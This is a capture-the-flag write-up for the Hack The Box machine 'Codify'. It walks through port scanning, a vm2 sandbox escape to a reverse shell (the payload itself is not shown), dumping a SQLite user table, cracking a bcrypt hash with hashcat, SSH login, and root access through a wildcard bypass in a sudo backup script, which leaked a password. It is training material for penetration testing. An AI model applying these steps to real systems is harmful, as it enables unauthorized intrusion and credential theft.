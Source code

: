 # Hack The Box : Codify
## Difficulty : Easy
## OS : Linux

## Enumeration:

I'll start with a simple port scan:

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.6.231
```

![scanP](img1.png)

I'll take a look at the web server on port 3000.

![page1](img2.png)

Following the "Try It Now" button we get to this page.

![page2](img3.png)

I'll try to run some simple JS.

![Cd](img4.png)

We can assume this is a jailbreak type vulnerability. Looking around the site we find out "vm2" library is used for sandboxing.

![lib](img5.png)

I found multiple jailbreak tehniques for this library.

Using the following payload I managed to get a reverse shell.

## Pillaging

Looking through the system I find a "tickets.db" file in "var/www/contact". I will enumerate the data base.

```bash
cd /var/www/contact
sqlite3
.open tickets.db
.schema
select * from users
.quit
```

I found a hash for the password of "joshua".

```markdown
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

I'll use hascat to crack the password.


```bash
echo "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2" >hash.txt
hashid
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Output:
```bash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

## Foothold 2

I'll connect via ssh as the user "joshua".

```bash
ssh joshua@10.129.6.231
spongebob1
```

![ssh](img7.png)

I will get the user flag.

```bash
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

We find out we can run a sh script as sudo.

```bash
sudo -l
```

Output:
```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Inspecting the file we find out the following:

```bash
ls -la /opt/scripts/mysql-backup.sh
-rwxr-xr-x 1 root root 928 Nov  2  2023 /opt/scripts/mysql-backup.sh

cat /opt/scripts/mysql-backup.sh
```

![script](img8.png)


Found out I can use a wildcard character to bypass script authentification.

![bp](img9.png)

I'll get pspy iont the system and see how the command is executed.

We get this.
```bash
/usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;
```

I'll login as root.

```bash
su root
kljh12k3jhaskjh12kjh3
```

![root](img9.png)

Now I'll get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!